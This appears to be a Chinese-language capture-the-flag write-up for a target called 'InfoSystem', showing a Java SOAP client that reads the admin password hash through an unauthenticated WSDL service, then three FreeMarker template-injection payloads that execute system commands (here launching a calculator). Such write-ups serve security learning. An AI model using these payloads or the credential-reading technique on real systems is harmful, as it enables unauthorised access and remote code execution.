 # InfoSystem
首先是对登陆进行抓包，发现发送了两个数据包，一个是登陆前台，一个是登陆后台：

![image-20211031233344348](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211031233344348.png)

![image-20211031233359519](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211031233359519.png)

访问后台路由`/admin/externalLogin`，重定向到`/admin`，是后台的登陆界面：

![image-20211101011745947](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211101011745947.png)



对这个路由进行扫描，发现可以未授权访问的wsdl：

![image-20211101012050038](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211101012050038.png)

其中`loadUserByUsername`可以通过用户名读取密码的哈希值，编写一个soap客户端来尝试读取`admin`：

```java
public class Main {
    public static void main(String[] args) {
        JaxWsDynamicClientFactory factory = JaxWsDynamicClientFactory.newInstance();
        Client client = factory.createClient("http://infosystem:8081/admin/service/UserService?wsdl");
        try {
            Object[] objects = client.invoke("loadUserByUsername", "admin");
            Arrays.stream(objects).forEach(System.out::println);
            client.destroy();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

成功读取：

![image-20211101012301594](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211101012301594.png)

用这个账号和密码登录后台：

![image-20211101012349859](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211101012349859.png)

其中在新闻发布 & 新闻列表中存在`freemarker`的模板注入：

![image-20211101012427785](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211101012427785.png)

![image-20211101012439444](https://image-1302577725.cos.ap-beijing.myqcloud.com/uPic/image-20211101012439444.png)


可用payload:
```
<#assign value="freemarker.template.utility.Execute"?new()>${value("open -a Calculator")}

<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}

<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```
